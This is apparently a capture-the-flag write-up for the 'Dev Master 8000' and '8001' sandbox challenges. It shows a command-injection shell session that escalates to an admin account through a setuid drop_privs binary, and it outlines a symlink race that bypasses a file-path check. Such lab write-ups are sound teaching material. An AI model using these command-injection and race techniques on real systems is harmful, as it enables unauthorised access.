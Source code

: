 # Sandbox

## Dev Master 8000

Since they release a second version of `Dev Master`, I am 100 percent sure that most team solve in unintentional solution for the first challenge.

Basically they offer an online compile service. We provide an input file and an output file. The input file path will be sanitized. As long as command execution finished, the program will read a file with a name we provided, if the file is not a symlink and has a valid path, the program will read it and send the content. However, the compile command can be injected. Using `bash` instead of `gcc` allows you to get a shell. When you login, the magic part happen:
```
$ ./client nc devmaster.ctfcompetition.com 1337 -- source.cc -- binary -- sh 
$ id
uid=1338(sandbox-runner-0) gid=1338(sandbox-runner-0) groups=1338(sandbox-runner-0),0(root)
$ cd ../../
$ ls -la
total 1740
drwxrwxr-x 1 root  root     4096 Jun 22 04:02 .
drwxr-xr-x 1 root  root     4096 Jun 22 04:02 ..
-r-xr-xr-- 1 admin admin   56952 Jun 22 04:36 admin
-r-xr-xr-- 1 root  root     2344 Nov 29  1979 admin.cc
-r-xr-xr-- 1 root  root    77360 Nov 29  1979 admin_builder_client
drwxrwxr-x 1 root  root     4096 Jun 22 04:36 builds
-r-xr-xr-- 1 root  root     1571 Nov 29  1979 challenge.sh
-r-xr-xr-- 1 root  root    86184 Nov 29  1979 client
-rwsr-sr-- 1 root  root    12680 Nov 29  1979 drop_privs
-r-xr-xr-- 1 root  root    23736 Nov 29  1979 executor
-r--r----- 1 admin admin      43 Jun 22 04:02 flag
-r-xr-xr-- 1 root  root  1280576 Nov 29  1979 linux-sandbox
-r-xr-xr-- 1 root  root    69360 Nov 29  1979 multiplexer
-r-xr-xr-- 1 root  root    13014 Nov 29  1979 picosha2.h
-r-xr-xr-- 1 root  root   107984 Nov 29  1979 server
-r-xr-xr-- 1 root  root      724 Nov 29  1979 target_loop.sh
$ ./drop_privs admin admin sh
$ id
uid=1346(admin) gid=1346(admin) groups=1346(admin),0(root)
```

I don't know whether google did that intentionally or unintentionally...but this is quite stupid...

## Dev Master 8001

The permission issue is fixed here. But we can use a race condition to bypass the file path. When the program valid the file, we can execute out compiled file to symlink the program to flag location. And we can bypass the check.

# Pwn

